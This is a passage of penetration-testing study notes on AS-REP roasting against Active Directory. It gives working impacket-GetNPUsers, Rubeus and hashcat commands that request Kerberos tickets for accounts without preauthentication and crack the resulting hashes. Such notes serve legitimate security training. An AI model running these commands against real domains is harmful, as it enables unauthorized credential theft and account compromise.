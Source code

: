 If the AD authentication is configured without the Kerberos Preauthentiction enabled, any user can request a TGT. We can use the `impacket-GetNPUsers` util on Kali. A good explaination of this attack can be found [here](https://en.hackndo.com/kerberos-asrep-roasting/).

```shell
impacket-GetNPUsers -dc-ip <IP-DC>  -request -outputfile hashes.asreproast corp.com/<USER>
```

AS-Rep roasting tickets (TGT) has this format: `$krb5asrep$23$`.

In the powershell the specular program is [Rubeus](https://github.com/GhostPack/Rubeus)

```powershell
.\Rubeus.exe asreproast /nowrap
```

In both cases we have to know at leas the password of one of the AD users. For this reason this and the following tecniques are **post-exploitation** attacks. When we gain the hash it can be cracked with hashcat.

```shell
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```